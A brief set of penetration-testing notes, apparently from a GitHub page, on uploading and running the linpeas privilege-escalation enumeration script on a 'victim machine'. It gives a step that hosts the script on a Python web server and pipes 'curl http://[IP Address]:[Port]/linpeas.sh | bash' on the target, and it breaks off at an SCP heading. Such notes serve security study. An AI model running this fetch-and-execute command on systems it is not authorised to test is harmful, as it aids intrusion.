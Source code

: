 # Using linpeas on the victim machine

Ok so, _linpeas_ has to be uploaded one way or another to the victim machine to be able to use it. It's just a shell script, but there are multiple ways to get it there.

## Method 1 - Curl

**Step 1:** Set up a _Python Web Server_ in the directory with the _linpeas.sh_ file



**Step 2:** After it's hosted, _curl_ it and pipe it immediately into _bash_ to run it immediately, like so:

```
curl http://[IP Address]:[Port]/linpeas.sh | bash
```

**Step 3:** Stonks


## Method 2 - SCP

